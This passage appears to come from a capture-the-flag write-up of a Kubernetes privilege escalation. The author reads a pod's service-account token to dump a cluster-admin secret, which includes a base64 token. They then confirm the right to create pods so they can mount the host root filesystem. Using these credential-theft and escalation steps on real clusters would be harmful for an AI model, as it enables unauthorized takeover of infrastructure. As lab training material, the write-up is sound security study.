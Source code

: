 Since we can get any secrets, I decided to get the **c-admin-token** as we can do anything with this token.

## Getting c-admin-tokem-tfmp2
```console
root@devnode-deployment-cd86fb5c-qlxww:~# ./ctlkube.new --token=`cat /run/secrets/kubernetes.io/serviceaccount/token` get secret c-admin-token-tfmp2 -
n kube-system -o yaml                                                                                                                                 
apiVersion: v1                                                                                                                                        
data:                                                                                                                                                 
  ca.crt: LS0tLS1CRUdJTiBDRVJUSUZJQ0FURS0tLS0tCk1JSUM1ekNDQWMrZ0F3SUJBZ0lCQVRBTkJna3Foa2lHOXcwQkFRc0ZBREFWTVJNd0VRWURWUVFE

.........................................[snip]..........................
 namespace: a3ViZS1zeXN0ZW0=                                                                                                                         
  token: ZXlKaGJHY2lPaUpTVXpJMU5pSXNJbXRwWkNJNklrcE9kbTlpWDFaRVRFSjJRbFpGYVZwQ2VIQjZUakJ2YVdORWFsbHRhRTFVTFhkQ05XWXRiMkpXVXpnaWZRLmV5SnBjM01pT2lKcmRXS
mxjbTVsZEdWekwzTmxjblpwWTJWaFkyTnZkVzUwSWl3aWEzVmlaWEp1WlhSbGN5NXBieTl6WlhKMmFXTmxZV05qYjNWdWRDOXVZVzFsYzNCaFkyVWlPaUpyZFdKbExYTjVjM1JsYlNJc0ltdDFZbVZ
5Ym1WMFpYTXVhVzh2YzJWeWRtbGpaV0ZqWTI5MWJuUXZjMlZqY21WMExtNWhiV1VpT2lKakxXRmtiV2x1TFhSdmEyVnVMWFJtYlhBeUlpd2lhM1ZpWlhKdVpYUmxjeTVwYnk5elpYSjJhV05sWVdOa
mIzVnVkQzl6WlhKMmFXTmxMV0ZqWTI5MWJuUXVibUZ0WlNJNkltTXRZV1J0YVc0aUxDSnJkV0psY201bGRHVnpMbWx2TDNObGNuWnBZMlZoWTJOdmRXNTBMM05sY25acFkyVXRZV05qYjNWdWRDNTF
hV1FpT2lJeU5EWXpOVEExWmkwNU9ETmxMVFExWW1RdE9URm1OeTFqWkRVNVltWmxNRFkyWkRBaUxDSnpkV0lpT2lKemVYTjBaVzA2YzJWeWRtbGpaV0ZqWTI5MWJuUTZhM1ZpWlMxemVYTjBaVzA2W
XkxaFpHMXBiaUo5LlhrOTZwZEM4d25CdUlPbTRDZ3VkOVE3enBvVU5ISUNnN1FBWlk5RVZDZUFVSXpoNnJ2ZlpKZWFIdWNNaXE4Y205M3pLbXdIVC1qVmJBUXlOZmFVdWFYbXVlazVUQmRZOTRrTUQ
1QV9vd0ZoLTBrUlVqTkZPU3Izbm9ROFhGX3huV21kWDk4bUtNRi1ReE9aS0NKeGtibkxMZF9oLVAyaFdSa2ZZOHhxNi1lVVA4TVlyWUZfZ3M3WG0yNjRBMjJoclZaeFRiMmpaalVqN0xURlJjaGI3Y
koxTFdYU0lxT1YyQm1VOVRLRlFKWUNaNzQzYWJlVkI3WXZOd1BIWGNPdExFb0NzMDNodkVCdE9zZTJQT3pONTRwSzhMeXFfWEdGSk4weVRKdXVRUUx0d3JvRjM1NzlEQmJaVWtkNEpCUVFZcnBtNld
kbTl0amJPeUdMOUtSc05vdw==
....................................[snip]..........................
```

## Checking privileges with this new token
![1](/assets/images/htb-boxes/unobtainium/Pasted image 20210613072218.png)
And we can do anything since we are system admin on the kubernates cluster.

## Creating a new pod with host root system mounted
### Checking if I can create new pods
```console
root@devnode-deployment-cd86fb5c-qlxww:~# ./ctlkube.new --token=`cat c-admin.token` auth can-i create pods
yes
```
